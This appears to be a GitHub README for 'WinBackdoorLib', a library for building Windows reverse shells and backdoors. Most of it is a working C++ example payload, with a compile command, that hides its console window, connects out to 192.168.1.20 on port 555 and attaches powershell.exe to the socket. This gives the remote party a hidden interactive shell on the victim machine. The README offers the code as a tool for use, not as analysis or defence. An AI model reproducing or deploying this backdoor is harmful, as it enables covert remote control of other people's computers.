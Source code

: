 # WinBackdoorLib
a simple Lib to create "reverse shell or backdoor" simply with Windows API

![Image1](screen.PNG)


## example Payload :
  ```cpp
  //compile : g++ socket_winbd.cpp test_winbd.cpp -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
#include "socket_winbd.h" //to start, we're including our header in our file.

int main() // 
{
    FreeConsole(); // hide console
    SOCKET socks; // equ int socks;
    WSADATA wsa; // equ for wsa

    struct sockaddr_in session; //we declare the structure "sockaddr_in" which will be named session

    WSAStartup(MAKEWORD(2, 2), &wsa); // startup WSA
    socks = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0); // socket configuration

    session.sin_family = AF_INET; // socket Family (AF_INET)
    session.sin_addr.s_addr = inet_addr("192.168.1.20"); // set the address
    session.sin_port = htons(555); // set the port

    int c = connect(socks, session); // connect to remote host
    if (c != -1)
    {
        execute_process(socks, "powershell.exe"); // Handle Process
    }
    return 0;
}
  ```
 <iframe width="420" height="315" src="https://www.youtube.com/watch?v=_QK_7yL5704"></iframe>
 <a href="https://unam3dd.github.io/WinbdDocs/">View Documentation</a>
